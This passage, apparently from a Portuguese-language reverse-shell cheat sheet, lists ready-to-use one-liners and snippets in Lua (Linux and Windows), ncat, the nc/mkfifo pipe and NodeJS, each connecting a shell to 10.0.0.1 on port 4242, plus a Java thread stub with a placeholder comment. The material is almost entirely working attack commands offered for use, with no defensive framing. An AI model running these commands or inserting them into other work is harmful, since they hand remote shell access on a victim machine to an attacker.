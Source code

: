 Método 3

```java
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```

## Lua

### Lua Linux

```sh
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### Lua Windows

```sh
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

## Ncat

```sh
ncat 10.0.0.1 4242 -e /bin/bash
ncat --udp 10.0.0.1 4242 -e /bin/bash
```

## Ncat OpenBSD

Esse é o que eu mais utilizo
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

## NodeJS

```sh
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
